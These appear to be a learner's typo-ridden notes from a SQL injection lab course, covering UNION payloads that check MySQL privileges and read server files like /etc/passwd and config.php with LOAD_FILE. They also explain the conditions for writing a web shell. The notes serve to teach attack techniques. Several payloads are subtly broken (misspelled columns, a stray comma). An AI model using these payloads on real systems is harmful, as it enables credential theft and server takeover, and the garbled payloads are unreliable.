 Once again, we can use the following payload with the above query:
`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`

If we had many users within the DBMS, we can add WHERE user="root" to only show privilege for our current user root:
`cn UNION SELECT 1, super_privm, 3, 4 FROM mysql.user WHERE user="root"-- -`

The query retuns Y, which means YES, indicating suepruser privilege. We can also dump other privileges we have directly form teh schema, whei the following query:
`cn' UNION SELECT 1, grantee, privilege_type, 4, FROM information_schema.user_privilege-- -`

From here, we can add WHERE grantee="'root'@'localhost'" to show our current user root privilege.
`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
We can se the FILE privielege o listed for our userm enabling us to read files and potentially even writes files.

- LOAD_FILE:
Now that we know we have enough privielege to read a local system files, let us do that using the LOAD_FILE() funtion. The LOAD_FILE() funtion can ve used Mariadb/Mysql
form the files.
How to read a file /etc/passwd:
`SELECT LOAD_FILE('/etc/passwd');`
Similar to how we have been usin a union injection, we can us the above query:
`cn UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`
Another example wit /var/www/html/search.php
`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

Exercise:
We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.
`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -`

# Writing Files:
When comes to writing files to back-end server, it become much more restricted in modern DBMSes, since we can utilize this to write  a web shell on the remoter server, hence getting code executin an taking over the server.
This is why modern DBMSes disable file-write by def and require certain privilege for DBA's to write files.

- Write File Privilege:
1. User with FILE privilege enable:
2. MySQL global secure_file_priv variable enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the FILE privilege necessary to write files. We must now check if MySQL db has the privilege. This can be done by checking thje secure_file_priv global variable.

- Secure_file_priv:
Variable is used to determinate where to read/write files from. An empty value lets us read files from the entire file system. If a certain directory is set, we can only read from the folder specified by the variable. Ont eh other hand, NULL
means we cannot read/write form any directory. MariaDB has this variable set to empty by def, which lets us read/write to any file of the user has FILE privilege.
MySQL uses /var/lib/mysql-file as the def foder. This means that reading files through a MySql injection ins't possible with def settings.
Some modern configurations def to NULL, meaning that we cannot read/write files anywhere within the system.
